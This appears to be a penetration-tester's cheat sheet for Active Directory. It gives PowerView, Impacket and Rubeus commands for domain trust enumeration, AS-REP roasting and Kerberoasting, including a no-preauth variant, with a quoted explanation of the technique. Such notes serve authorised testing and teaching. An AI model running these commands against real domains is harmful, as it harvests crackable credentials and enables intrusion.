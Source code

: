 # Situational Awareness
## Domain Enumeration
### Forest Trust
```powershell
# Map all domain trusts
Get-DomainTrustMapping -Verbose

# Get Forest Trust from current domain
Get-DomainTrust
```
### ASREP Roasting
```powershell
# PowerView
Get-DomainUser -PreauthNotRequired

# Impacket
GetNPUsers.py kiwi.local/bethany.linnell -no-pass -dc-ip 192.168.86.189
GetNPUsers.py kiwi.local/ -usersfile /tmp/users.lst -no-pass -dc-ip 192.168.86.189
```

### Kerberoasting
```powershell
# Powerview
Get-DomainUser -SPN

# Rubeus
Rubeus.exe kerberoast /nowrap
```

**Update**: A research has been done by [@exploitph](https://twitter.com/exploitph) concludes that a user that has `Not-RequirePreAuth` property enabled can perform [Kerberoasting](#kerberoasting) without needing the password of the account. Detailed explanation can be read [here](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/). 
> When a ticket is requested without pre-authentication, the result still includes an encrypted part. This encrypted part is encrypted with the credential key used for authentication and contains the session key for the ticket included within the reply. This is the encrypted data used in the [ASREPRoast attack](https://blog.harmj0y.net/activedirectory/roasting-as-reps/) by [Will Schroeder](https://twitter.com/harmj0y). The resulting TGT is usable only with access to the requesting accounts key, since the TGT session key is required. However, for Kerberoasting, access to the session key is not required. Only the resulting ST—or more accurately, the encrypted part of the ST, which is not secured with the requesting accounts key—is required. Therefore, if any account is configured to not require pre-authentication, it is possible to Kerberoast without **any** credentials.
```powershell
# Rubeus
.\Rubeus.exe kerberoast /domain:kiwi.local /dc:192.168.86.189 /nopreauth:bethany.linnel /spns:users.txt

# Impacket
GetUserSPNs.py kiwi.local/ -no-preauth bethany.linnell -usersfile /tmp/users.lst -dc-ip 192.168.86.189
```
